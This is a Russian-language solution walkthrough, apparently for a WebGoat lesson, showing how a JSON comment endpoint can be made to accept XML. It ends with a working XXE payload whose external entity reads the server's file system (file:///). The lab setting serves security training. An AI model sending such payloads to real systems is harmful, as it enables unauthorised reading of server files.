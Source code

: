 === Решение задачи

Идея этой задачи заключается в том, что хотя может показаться, что приложение принимает только JSON, но если мы изменим текст сообщения на XML, фреймворк может его обработать. Когда вы попытаетесь ввести комментарий, текст запроса будет:

[source, json]
----
{"text":"Мой первый комментарий"}
----

Это обычное сообщение JSON, давайте попробуем изменить тип содержимого запроса.

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

{"text":"Мой первый комментарий"}
----

это приводит к следующему исключению:

[source]
----
javax.xml.bind.UnmarshalException\n - with linked exception:\n[javax.xml.stream.XMLStreamException: ParseError at [row,col]:[1,1]\nMessage: Содержание не допускается в прологе.
----

В зависимости от XML-парсера вы можете получить лучшее сообщение об ошибке, в этом случае сообщение немного криптическое, это означает, что мы не отправляем допустимый xml. Например, библиотека Jackson выдает следующее сообщение:

[source]
----
JSON parse error: Unexpected character '{' (code 123) in prolog; expected
      '<'\n at [row,col {unknown-source}]: [1,1]; nested exception is com.fasterxml.jackson.core.JsonParseException:
      Unexpected character '{' (code 123) in prolog; expected '<'\n at [row,col {unknown-source}]: [1,1]“
----

Это сообщение об ошибке появляется, поскольку мы все еще отправляем сообщение JSON в конечную точку, поэтому, если мы перехватим и изменим сообщение JSON на сообщение XML:

[source]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<text>Это мое первое сообщение.</text>
----

Снова сообщение об ошибке от конечной точки:

[source]
----
"javax.xml.bind.UnmarshalException\\n - with linked exception:\\n[com.sun.istack.SAXParseException2; lineNumber: 1; columnNumber: 7; unexpected element (uri:\\\"\\\", local:\\\"text\\\"). Expected elements are <{}comment>]
----

Парсер жалуется, что сообщение не является допустимым XML-сообщением и его необходимо встроить в tag `comment`:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<comment><text>Это мое первое сообщение.</text></comment>
----

Конечная точка больше не жалуется, и если вы обновите страницу в WebGoat, опубликованные комментарии появятся. Чтобы атака сработала, нам нужно опубликовать:

[source, xml]
----
POST http://localhost:8080/WebGoat/xxe/content-type HTTP/1.1
Content-Type: application/xml

<!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;Это мое первое сообщение.</text></comment>
----

В некоторых корпоративных сетях некоторые сетевые устройства могут полностью отбрасывать эту полезную нагрузку, если она была отправлена по HTTP. В этом случае ответ на `POST` не возвращается, и конечная точка никогда не получает запрос. Однако такие виды защиты имеют ограниченное применение, поскольку тот же запрос будет успешно передан в настройке HTTPS, где эта полезная нагрузка будет зашифрована.
